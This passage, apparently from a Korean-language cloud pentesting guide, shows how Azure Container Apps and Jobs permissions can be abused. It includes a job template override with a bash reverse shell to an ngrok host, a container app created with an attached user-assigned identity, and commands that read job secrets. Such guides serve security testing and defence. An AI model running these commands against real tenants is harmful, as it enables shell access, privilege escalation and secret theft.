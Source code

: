 이 권한은 **사용자 관리 ID**가 연결된 **애플리케이션 컨테이너를 생성하거나 업데이트**할 수 있게 해줍니다. 이는 컨테이너에서 권한을 상승시키는 데 매우 유용합니다.
```bash
# Get environments
az containerapp env list --resource-group Resource_Group_1

# Create app in a an environment
az containerapp create \
--name <app-name> \
--resource-group <res-group> \
--image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
--cpu 1 --memory 1.0 \
--user-assigned <user-asigned-identity-name> \
--min-replicas 1 \
--command "<reserse shell>"
```
> [!TIP]
> 이러한 권한으로 **앱의 다른 구성**을 수정할 수 있으며, 이는 기존 앱의 구성에 따라 다른 권한 상승 및 사후 활용 공격을 수행할 수 있게 할 수 있습니다.

## Jobs

### `Microsoft.App/jobs/read`, `Microsoft.App/jobs/write`

작업은 컨테이너 앱처럼 장기 실행되지 않지만, 실행을 시작할 때 작업의 명령 구성을 재정의할 수 있는 능력을 악용할 수 있습니다. 기본 명령을 리버스 셸로 교체하는 등의 사용자 정의 작업 템플릿을 작성함으로써, 작업을 실행하는 컨테이너 내에서 셸 접근을 얻을 수 있습니다.
```bash
# Retrieve the current job configuration and save its template:
az containerapp job show --name <job-name> --resource-group <res-group> --output yaml > job-template.yaml

# Edit job-template.yaml to override the command with a reverse shell (or similar payload):
# For example, change the container’s command to:
#  - args:
#      - -c
#      - bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/18224 0>&1
#      command:
#      - /bin/bash
#      image: mcr.microsoft.com/azureml/minimal-ubuntu22.04-py39-cpu-inference:latest

# Update and wait until the job is triggered (or change ths type to scheduled)
az containerapp job update --name deletemejob6 --resource-group Resource_Group_1 --yaml /tmp/changeme.yaml

# Start a new job execution with the modified template:
az containerapp job start --name <job-name> --resource-group <res-group> --yaml job-template.yaml
```
### `Microsoft.App/jobs/read`, `Microsoft.App/jobs/listSecrets/action`

이 권한이 있으면 Job 컨테이너 내의 모든 비밀(첫 번째 권한)을 나열한 다음 구성된 비밀의 값을 읽을 수 있습니다.
```bash
az containerapp job secret list --name <job-name> --resource-group <res-group>
az containerapp job secret show --name <job-name> --resource-group <res-group> --secret-name <secret-name>
```
### `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.App/jobs/write`
